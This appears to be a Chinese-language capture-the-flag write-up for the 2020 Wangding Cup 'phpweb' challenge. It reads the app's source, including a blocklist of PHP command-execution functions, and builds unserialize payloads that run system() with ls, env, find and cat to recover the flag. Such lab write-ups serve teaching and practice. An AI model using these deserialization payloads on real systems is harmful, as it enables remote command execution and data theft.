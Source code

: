 ### [网鼎杯 2020 朱雀组]phpweb

----

抓包发现POST了两个参数：联想到date函数

```
func=             &p= 
```

我们故意输错

通过报错我们可以发现使用的是`call_user_func`

```
func=file_get_contents&p=index.php
```

读出**index.php**的内容

```php
    <?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

我们可以发现这个`Test`类,没有过滤，我们可以通过构造一个反序列化的Payload

```php
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
```

构造如下：
```php
<?php
class Test {
        var $p = "ls /";
        var $func = "system";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }

$a = new Test();
echo serialize($a);

O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
//我们传参数
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```

![image-20241018154247165](https://gitee.com/bx33661/image/raw/master/path/image-20241018154247165.png)

发现成功了，我们读取根目录和当前目录都没有发现flag，我们尝试寻找环境变量：

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:3:"env";s:4:"func";s:6:"system";}
```

![image-20241018154441873](https://gitee.com/bx33661/image/raw/master/path/image-20241018154441873.png)

也没有，我们尝试find

```
O:4:"Test":2:{s:1:"p";s:18:"find / -name flag*";s:4:"func";s:6:"system";}
```

![image-20241018154717933](https://gitee.com/bx33661/image/raw/master/path/image-20241018154717933.png)

最后---->cat

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```

![image-20241018154850895](https://gitee.com/bx33661/image/raw/master/path/image-20241018154850895.png)